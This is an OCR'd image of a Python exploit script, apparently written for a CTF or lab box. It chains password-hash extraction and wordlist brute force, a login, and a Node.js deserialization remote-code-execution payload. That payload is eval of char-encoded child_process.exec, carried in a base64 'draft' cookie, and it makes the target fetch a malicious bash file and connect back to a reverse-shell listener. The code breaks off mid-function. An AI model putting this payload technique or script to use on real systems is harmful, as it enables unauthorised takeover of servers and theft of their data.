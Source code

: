 ```py
# Generate the malicious cookie js draft
def get_command(command):
    return '''
        require('child_process').exec('%s', function(error, stdout, stderr) {
            console.log(error)
            console.log(stdout)
        })
        ''' % (command)

# Encode it
def encode_string(string):
    string_encoded = ''
    for char in string:
        string_encoded += "," + str(ord(char))
    return string_encoded[1:]

# Mount it
def get_rce(command):
    payload = encode_string(get_command(command))
    not_encoded = "{\"run\": \"_$$ND_FUNC$$_function (){eval(String.fromCharCode(%s))}()\"}" %payload
    global encoded
    encoded = b64e(not_encoded)

# Geeeeet reverseeeeeee
def getReverse(rhost,encoded):
    print("[+] Now, let's get the reverse one !! [+]")
    cookies = {'draft': '%s' %encoded}
    url = "http://%s:3000/" %rhost
    r.get(url, cookies=cookies, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be Extracted', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used to brute force the hash', required=True)
    parser.add_argument('-li', '--lhost', help='Local ip to receive connection', required=True)
    parser.add_argument('-lp', '--lport', help='Local port to receive connection', required=True)

    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    lhost = args.lhost
    lport = args.lport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Let's get the hash and brute force it
    hashExtract(rhost,username,wordlist)
    # Let's loging
    loginAPP(rhost,username,word)
    # Create the malicious bash file
    file = random.randrange(10000,99999)
    createPayload(lhost,lport,file)
    # Create the malicious command, with b64 auto
```